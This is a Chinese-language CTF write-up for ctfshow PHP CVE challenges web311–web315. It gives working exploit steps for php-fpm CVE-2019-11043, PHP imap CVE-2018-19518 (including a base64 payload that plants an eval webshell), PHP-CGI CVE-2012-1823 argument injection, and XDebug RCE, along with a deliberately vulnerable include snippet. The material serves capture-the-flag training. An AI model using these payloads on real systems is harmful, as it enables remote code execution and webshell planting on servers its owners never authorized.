

## ctfshow-phpCVE
### web311

CVE-2019-11043

**[phuip-fpizdam](https://github.com/neex/phuip-fpizdam)**

go没鼓捣好，直接上**docker**吧

```bash
docker run --rm ypereirareis/cve-2019-11043 http://d72663bf-50f8-4fe6-88cf-6e1a6d5ca2ca.challenge.ctf.show/index.php
```

然后访问`index.php?a=ls`即可执行命令



不成功需要多试几次

**Try multiple times as only some of php-fpm workers are infected.**

### web312

**[PHP imap 远程命令执行漏洞（CVE-2018-19518）](https://github.com/vulhub/vulhub)**

**php5.6.x < php5.6.39**

bp发包如下

```
POST / HTTP/1.1
Host: d7be7a80-89a7-4f1e-be68-5f00f0b7eeeb.challenge.ctf.show
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://XXX:8080/
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Connection: close
Upgrade-Insecure-Requests: 1

hostname=x+-oProxyCommand%3decho%09ZWNobyAnPD9waHAgZXZhbCgkX1BPU1RbMV0pOycgPiAvdmFyL3d3dy9odG1sL2UucGhw|base64%09-d|sh}a&username=222&password=333
```

这是写了一个后门为 1 的一句话木马到 **e.php** 中


### web313

[PHP-CGI远程代码执行漏洞（CVE-2012-1823）分析](https://www.leavesongs.com/PENETRATION/php-cgi-cve-2012-1823.html)

**php 5.4.1**

```
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: 894dd802-cc20-4060-aa3e-1d805f50becf.challenge.ctf.show
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 54

<?php echo shell_exec("cat /somewhere/fla9.txt"); ?>
```


### web314

```php
<?php

error_reporting(0);

highlight_file(__FILE__);

//phpinfo
$file = $_GET['f'];

if(!preg_match('/\:/',$file)){
    include($file);
}
```

写入nginx日志


预期解是**session文件上传**，等会当专题整理下

### web315

[XDebug 远程调试漏洞](https://github.com/vulhub/vulhub/tree/master/php/xdebug-rce)

跑下脚本,脚本在上面的网站里（需要有公网服务器）

python3 exp.py -t url/index.php -c 'shell_exec('id');'